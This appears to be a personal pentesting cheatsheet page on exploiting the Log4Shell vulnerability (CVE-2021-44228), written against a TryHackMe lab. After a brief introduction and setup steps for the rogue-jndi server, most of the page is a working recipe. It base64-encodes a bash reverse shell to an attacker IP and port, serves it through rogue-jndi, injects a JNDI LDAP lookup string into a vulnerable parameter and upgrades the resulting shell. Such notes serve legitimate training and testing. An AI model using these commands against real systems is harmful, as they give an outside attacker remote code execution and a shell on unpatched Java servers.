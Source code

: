# Log4Shell
## Introduction

For amazing visual and practical explanation of the affect on a MineCraft server please watch the [John Hammond - CVE-2021-44228 - Log4j](https://www.youtube.com/watch?v=7qoPDq41xhQ) YouTube video. This vulnerability was possible one of most severe 0days that could have been in use for over ten years and have wide application outside of hacking MineCraft servers. [Log4j](https://en.wikipedia.org/wiki/Log4j) is a Java Logging utility that it is used in web servers and application that use Java may use this logging utility and therefore probably therefore the worst 0day for the longest possible time (since 2014) that was only publicly disclosed and patched in 2021 named [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell). An really interesting example for those that are probably reading this is [Kosmer's PoC](https://github.com/kozmer/log4j-shell-poc) showcasing the exploitation of Ghidra - [[Ghidra-Cheatsheet]]

## Requirements
```bash
apt update
apt install openjdk-11-jdk -y
apt-get install maven
mvn -v
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi  
mvn package
```

As of 2024 - tooling compatibility install Java 11..similarly as for `ysoserial`, etc
```bash
sudo apt-get install openjdk-11-jdk
```

## Pass the payload

Use the `rogue-jdni` server to pass a payload. First base64 encode the reverse shell payload.
```bash
echo 'bash -c bash -i >&/dev/tcp/$IP/$PORT 0>&1' | base64
```
Then within the `rogue-jndi` directory.
```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, $ENCODEDPAYLOAD} | {base64,-d}|{bash,-i}" --hostname "$IP"
```

Post response set "vulnerable parametre to:
Note: port 1389 is the rogue-jndi server
```json
{
	vuln:"${jndi:ldap://$IP:1389/o=tomcat}",
}
```
Upgrade the terminal shell:
```bash
script /dev/null -c bash
```

## References

[THM Solar Room](https://tryhackme.com/room/solar)
[John Hammond - CVE-2021-44228 - Log4j](https://www.youtube.com/watch?v=7qoPDq41xhQ)
[Wikipedia Log4j](https://en.wikipedia.org/wiki/Log4j)
[Wikipedia Log4Shell](https://en.wikipedia.org/wiki/Log4Shell)
[Kosmer's PoC](https://github.com/kozmer/log4j-shell-poc)
